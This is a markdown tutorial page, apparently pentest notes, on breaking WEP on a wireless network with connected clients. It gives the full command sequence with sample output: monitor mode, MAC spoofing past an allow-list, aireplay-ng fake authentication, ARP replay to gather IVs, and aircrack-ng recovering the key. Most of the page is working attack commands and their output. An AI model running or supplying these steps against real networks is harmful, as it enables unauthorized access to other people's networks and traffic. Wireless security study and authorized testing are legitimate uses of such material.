 # WEP Attack \(OPEN\) - Clients connected

### 

### 1. Fake authentication attack \(MAC association\)

In a possible attack scenario, where an AP has MAC address filtering. We need to first obtain a valid mac address of a client, then wait until the client is no longer on the network and impersonate the client by performing fake authentication attack to associate our attacking machine with the victim access point.

**More Importantly**: This step may be required against targets that have mac whitelisting which the AP will only accept connections from specifically whitelisted MAC addresses. If this happens, we will need to observe in monitor mode for a client that is associated to the AP \(lower part screen of the airodump-ng output\) and wait for them to disconnect before impersonating their MAC address.

As usual begin all attacks with putting your adapter in monitor mode, mines on `wlan0`

```bash
airmon-ng check kill
airmon-ng start wlan0

# save capture file to disk - breaking it later (let it run)
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

# perform fake authentication attack - on new terminal
# Authenticate my mac address to accesspoint (else traffic may be rejected)
#
# -1 fake auth attack
# 0 association timing in seconds
aireplay-ng -1 0 -e <AP_ESSID> -a <AP_MAC> -h <MY_MAC> mon0

# you should see this success
# 22:42:26  Sending Authentication Request (Open System) [ACK]
# 22:42:26  Authentication successful
# 22:42:26  Sending Association Request [ACK]
# 22:42:26  Association successful :-) (AID: 1)

```

You will see that your monitor MAC address is added \(lower screen of your airmon-ng screen\) showing that it is now associated with the target AP.

**Info:** iWireshark will show that there are 4 packets in this sequence of exchange. Protocol 802.11. 

* we send a "Open System" request \(Authentication Algorithm\) to AP 
* AP response with status code successful 
* we send a association request "SSID parameter set: AP\_ESSID\_NAME" 
* AP response with status code successful

### 2.  Collect IV data using ARP replay attack

Using the interactive aireplay attack we choose a specific packet to replay against target network to get a response \(eg. using ARP will make client respond the ARP response\) to generate enough IV so that we can successfully crack the WEP password

```bash
aireplay-ng -2 -e <ESSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
# -f 1           to filter packets with "from DS" bit set (the values are 0 or 1) - why???
# -m 68 -n 86    minumum and maximum size of ARP packets 
# -d             Broadcast to all 

# No source MAC (-h) specified. Using the device MAC (98:3F:9F:19:06:49)
# 
# 
#         Size: 68, FromDS: 1, ToDS: 0 (WEP)
# 
#               BSSID  =  88:D7:F6:B8:EE:80
#          Dest. MAC  =  FF:FF:FF:FF:FF:FF
#          Source MAC  =  88:D7:F6:B8:EE:80
# 
#         0x0000:  0842 0000 ffff ffff ffff 88d7 f6b8 ee80  .B..............
#         0x0010:  88d7 f6b8 ee80 c03c dcf9 bb00 a0bb 7f65  .......<......e
#         0x0020:  d4a6 04d1 90c6 dbd8 92cc d7bf 743b 4577  ............t;Ew
#         0x0030:  82aa e7d7 4e22 9dff a3d8 0e0e a5f5 8911  ....N"..........
#         0x0040:  230a ee10                                #...
# 
# Use this packet ? y
```

**Info:** When a packet is captured, we can chose to use that packet to replay against the target to collect more IV \(more IV collected will help crack the WEP password\). You will see the 'data' field in your monitor count increasing rapidly, if not use other packets. About 40,000 data count collected should be enough to crack the WEP.

### 3. Cracking WEP

Now that we have enough IV collected \(in the written cap file\) we can easily crack it using

```bash
aircrack-ng -0 -z -n 64 clientwep-01.cap

# Reading packets, please wait...
# Opening clientwep-01.cap
# Read 282535 packets.
# 
#    #  BSSID              ESSID                     Encryption
# 
#    1  88:D7:F6:B8:EE:80  ABCDEF                     WEP (0 IVs)
# 
# Choosing first network as target.
# 
# Reading packets, please wait...
# Opening clientwep-01.cap
# Read 282535 packets.
# 
# 1 potential targets
# 
# Attack will be restarted every 5000 captured ivs.
# Starting PTW attack with 58681 ivs.
#                          KEY FOUND! [ 12:34:56:78:9A ] 
# 	Decrypted correctly: 100%

```

### 

### 

